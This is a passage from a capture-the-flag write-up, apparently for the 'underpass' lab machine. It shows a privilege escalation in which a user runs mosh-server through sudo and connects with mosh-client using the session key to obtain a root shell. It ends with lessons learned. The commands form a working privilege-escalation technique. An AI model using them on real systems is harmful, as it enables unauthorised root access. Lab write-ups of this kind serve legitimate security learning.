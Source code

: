 ```bash
svcMosh@underpass:~$ sudo /usr/bin/mosh-server


MOSH CONNECT 60001 tdxgPzLRJM1JL/fSTnS71Q
svcMosh@underpass:~$

─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
MOSH_KEY environment variable not found.
svcMosh@underpass:~$ MOSH_KEY=tdxgPzLRJM1JL/fSTnS71Q mosh-client 127.0.0.1 60001
```

Looking for `mosh` related binaries we found a `mosh-client`, trying to connect to the session at the open port, we get a variable not found error, telling us we need to set the key as `MOSH_KEY` environment variable, doing just that, we are able to get a shell as `root`.

![](file-20250507220651383.png)

![](file-20250507220634161.png)

## Lessons for learning/refresh 

- Don't take UDP ports for granted
- Look for directories of the services running on different wordlists
- Read `man` pages to better understanding of unknown binaries

